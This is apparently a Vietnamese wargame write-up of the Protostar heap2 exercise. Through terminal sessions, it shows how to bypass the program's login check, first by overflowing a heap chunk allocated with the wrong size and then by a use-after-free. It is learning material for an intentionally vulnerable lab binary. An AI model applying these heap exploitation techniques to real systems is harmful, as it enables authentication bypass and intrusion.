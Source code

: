 ```
user@protostar:/opt/protostar/bin$ ./heap2
[ auth = (nil), service = (nil) ]
auth AAAA
[ auth = 0x804c008, service = (nil) ]
service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[ auth = 0x804c008, service = 0x804c018 ]
login
you have logged in already!
[ auth = 0x804c008, service = 0x804c018 ]

```

Bài này 2 cái auth nó trùng tên, khi truyền vào malloc nó sẽ ưu tiên khai báo gần nhất ( đó là biến auth, thay vì struct auth ) => do đó chỉ cần allocate 1 chunk (dùng lệnh service) ngay sau chunk của auth rồi ghi một đống data vô, khi đó thì khi refer đến auth->auth nó sẽ tìm đến địa chỉ cách vị trí trên heap của auth 32 byte ( chunk của auth chỉ có 4 bytes ) và tìm thấy data bị ta ghi vào => bypass authen

Cách làm đúng nên là sử dụng phương pháp use after free, sau khi free chunk auth thì biến auth vẫn giữ địa chỉ của chunk cũ, nếu lúc này ta allocate một chunk mới với size nằm trong capacity của chunk vừa được freed thì đồng nghĩa với việc ta đang ghi dữ liệu vào biến auth

```
user@protostar:/opt/protostar/bin$ ./heap2
[ auth = (nil), service = (nil) ]
auth AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
[ auth = 0x804c008, service = (nil) ]
free
[ auth = 0x804c008, service = (nil) ]
service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[ auth = 0x804c008, service = 0x804c018 ]
login
you have logged in already!
[ auth = 0x804c008, service = 0x804c018 ]
```
